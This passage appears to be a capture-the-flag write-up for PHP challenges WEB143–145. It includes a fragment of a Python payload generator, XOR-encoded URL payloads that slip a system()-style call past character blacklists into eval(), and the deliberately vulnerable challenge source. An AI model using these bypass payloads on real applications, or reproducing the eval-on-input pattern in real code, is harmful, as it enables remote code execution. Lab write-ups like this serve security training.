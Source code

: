 ```
    write_rce()
    while True:
        s1 = input("\n[+] your function：")
        if s1 == "exit":
            break
        s2 = input("[+] your command：")
        param = action(s1) + action(s2)
        print("\n[*] result:\n" + param)

main()
```

```
payload:v1=1&v3=*("%0c%06%0c%0b%05%0d"^"%7f%7f%7f%7f%60%60")("%0b%01%03%00%06%00"^"%7f%60%60%20%60%2a")*&v2=1
```



## WEB144

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];

if(is_numeric($v1) && check($v3)){
    if(preg_match('/^\W+$/', $v2)){
        $code =  eval("return $v1$v3$v2;");
        echo "$v1$v3$v2 = ".$code;
    }
}

}

function check($str){
    return strlen($str)===1?true:false;
}
```

参考143

payload:?v1=1&v3=1&v2=*("%08%02%08%08%05%0d"^"%7b%7b%7b%7c%60%60")("%08%01%03%00%06%0c%01%07%00%0b%08%0b"^"%7c%60%60%20%60%60%60%60%2e%7b%60%7b");

## WEB145

```
highlight_file(__FILE__);
if(isset($_GET['v1']) && isset($_GET['v2']) && isset($_GET['v3'])){
    $v1 = (String)$_GET['v1'];
    $v2 = (String)$_GET['v2'];
    $v3 = (String)$_GET['v3'];
    if(is_numeric($v1) && is_numeric($v2)){
        if(preg_match('/[a-z]|[0-9]|\@|\!|\+|\-|\.|\_|\$|\}|\%|\&|\;|\<|\>|\*|\/|\^|\#|\"/i', $v3)){
                die('get out hacker!');
        }
        else{
            $code =  eval("return $v1$v3$v2;");
            echo "$v1$v3$v2 = ".$code;
        }
    }
}
```